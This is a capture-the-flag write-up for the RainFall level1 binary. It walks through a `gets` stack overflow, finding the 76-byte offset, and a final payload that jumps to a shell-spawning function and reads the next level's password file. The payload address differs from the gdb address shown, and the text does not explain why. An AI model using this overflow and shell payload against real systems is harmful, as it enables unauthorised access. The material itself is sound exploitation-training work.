 ### Brief
This program contain a `main` function and a `run` function.
The `main` function use a stack buffer of size 76 which is filled with the `gets` function.
`gets` is known to be a vulnerable function because it don't take a maximum bytes to read.
The `run` function open a new shell and will be used to access the next level.

### Exploit
As we already said `gets` is function that is known to be vulnerable.
It read what is on the `stdin` and fill a buffer, but it doesn't know where to stop.
With this function you can easily create a buffer overflow and overwrite the return address of the main function.

The return address is located at `4(%ebp)`.
We need to find the offset needed in our payload to overwrite the return address.
For that we use an online tool to create pattern and run the program with this pattern.
The pattern needs to be long enough to overwrite the return address and create a `segfault`

```bash
python -c "print('Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A')" | ./level1
```

Then we use a command called `dmesg` to get where the address where the `segfault` occurred

```bash
level1@RainFall:~$ dmesg
...
[ 3273.492901] level1[5158]: segfault at 63413563 ip 63413563 sp bffff770 error 14
```

The address is `63413563`, using the pattern generator tool we find an offset of `76`.

Using gdb we can retrieve the address of the `run` function that will open a shell.

```bash
level1@RainFall:~$ gdb level1
(gdb) info function run
...
0x08048444  run
```

### Get access
We create a payload containing the address of the `run` function at offset `76` and get our flag.
```bash
(python -c "print('A'*76 + '\x4a\x84\x04\x08')"; echo "cat /home/user/level2/.pass") | ./level1
```

### Useful link

* [x86 calling convention](http://unixwiz.net/techtips/win32-callconv-asm.html)
* [buffer overflow pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/)
